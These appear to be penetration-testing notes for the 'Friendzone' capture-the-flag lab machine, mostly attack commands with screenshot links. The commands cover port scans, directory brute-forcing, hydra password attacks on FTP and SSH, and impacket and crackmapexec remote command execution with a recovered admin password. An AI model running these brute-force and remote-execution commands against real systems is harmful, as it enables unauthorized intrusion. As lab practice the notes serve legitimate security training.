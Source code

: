 Friendzone
========================

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.123 | tee nmap_udp_output.txt

![qownnotes-media-gVKtdn](../../../media/qownnotes-media-gVKtdn.png)

    sudo nmap_enum friendzone.htb

![qownnotes-media-DVPbTF](../../../media/qownnotes-media-DVPbTF.png)

    sudo nmap -p- -Pn -T5 -n 10.10.10.123 | tee nmap_fullportstcp_output.txt

![qownnotes-media-vLZcwq](../../../media/qownnotes-media-vLZcwq.png)

    sudo nmap --script vuln -p 21,22,53,80,139,443,445 -T5 -n -Pn 10.10.10.123
    
![qownnotes-media-NJmFPV](../../../media/qownnotes-media-NJmFPV.png)

    
    enum4linux -a -A 10.10.10.123
    
![qownnotes-media-gnjlEv](../../../media/qownnotes-media-gnjlEv.png)

    gobuster dir -u http://10.10.10.123 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"
    
![qownnotes-media-QdvtOH](../../../media/qownnotes-media-QdvtOH.png)

    gobuster dir -u http://10.10.10.123/wordpress -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"
    
![qownnotes-media-HIHSsC](../../../media/qownnotes-media-HIHSsC.png)

    gobuster dir -u https://10.10.10.123 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_gobuster.txt"
 
 ![qownnotes-media-BJKudt](../../../media/qownnotes-media-BJKudt.png)

    hydra -L users.txt -P passwords.txt ftp://10.10.10.123
    
![qownnotes-media-KTaBlI](../../../media/qownnotes-media-KTaBlI.png)

    enum4linux -a -A -u admin -p 'WORKWORKHhallelujah@#' 10.10.10.123
    
![qownnotes-media-TrDJRu](../../../media/qownnotes-media-TrDJRu.png)

    impacket-dcomexec admin@10.10.10.123
    
    impacket-wmiexec admin@10.10.10.123
    
 ![qownnotes-media-fsAfdG](../../../media/qownnotes-media-fsAfdG.png)

    crackmapexec smb 10.10.10.123 -u users.txt -p passwords.txt
    
![qownnotes-media-nKTlTF](../../../media/qownnotes-media-nKTlTF.png)

    impacket-smbexec admin@10.10.10.123  

![qownnotes-media-TlIwDD](../../../media/qownnotes-media-TlIwDD.png)

    hydra -L users.txt -P passwords.txt ssh://10.10.10.123
    
![qownnotes-media-LDIcNU](../../../media/qownnotes-media-LDIcNU.png)

    crackmapexec smb 10.10.10.123 -u admin -p 'WORKWORKHhallelujah@#' -x whoami
 
![qownnotes-media-CYWVJb](../../../media/qownnotes-media-CYWVJb.png)

    firefox http://10.10.10.123

![qownnotes-media-pgUXHS](../../../media/qownnotes-media-pgUXHS.png)

    firefox http://friendzone.red

![qownnotes-media-bKXPRv](../../../media/qownnotes-media-bKXPRv.png)

    gobuster dir -u http://friendzone.red -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -b 302,403 -t 16 -o "tcp_port_protocol_ext_gobuster.txt"